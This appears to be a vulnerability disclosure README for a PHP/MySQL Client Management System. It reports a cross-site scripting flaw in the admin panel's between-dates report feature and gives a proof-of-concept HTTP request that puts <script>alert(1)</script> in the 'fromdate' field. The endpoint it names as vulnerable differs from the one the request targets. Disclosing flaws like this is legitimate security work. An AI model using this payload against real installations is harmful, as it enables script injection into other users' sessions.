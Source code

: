 # Client-Management-System-v1.1-

A Client Management System developed using PHP and MySQL.

## Auditor

Haneen Gufran - https://www.linkedin.com/in/haneen-gufran-a8b4a6227/

## Description

### Cross-Site Scripting (XSS) Vulnerability in Admin Panel

A **Cross-Site Scripting (XSS)** vulnerability has been identified in the **Client Management System**, specifically within the **Client Between Dates Reports** feature in the admin panel.

This vulnerability occurs due to inadequate input sanitization in the `Between Dates Reports` parameter of the `clientms/admin/bwdates-reports-ds.php` endpoint. The application fails to properly validate user input, allowing attackers to inject and execute malicious scripts. When a user interacts with a crafted link, these scripts can run in the victim's browser. 

This vulnerability poses several security risks, including unauthorized script execution and potential exposure of sensitive data.

**Vulnerable Endpoint:** `(clientms/admin/bwdates-reports-ds.php)`  

**Vulnerable Parameter:** `Between Dates Reports`

## Proof of Concept (PoC)

The following HTTP request demonstrates the XSS vulnerability. This PoC illustrates how an attacker could exploit the vulnerability to execute arbitrary JavaScript in the victim's browser.

```http
POST /clientms/admin/bwdates-reports-details.php HTTP/1.1
Host: localhost
Content-Length: 345
Cache-Control: max-age=0
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCm1Rgm4iv3NqgySI
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/clientms/admin/bwdates-reports-ds.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=p4cek0j306h831oqgio6cb0fid
Connection: keep-alive

------WebKitFormBoundaryCm1Rgm4iv3NqgySI
Content-Disposition: form-data; name="fromdate"

<script>alert(1)</script>   
------WebKitFormBoundaryCm1Rgm4iv3NqgySI
Content-Disposition: form-data; name="todate"

0093-08-22
------WebKitFormBoundaryCm1Rgm4iv3NqgySI
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryCm1Rgm4iv3NqgySI--
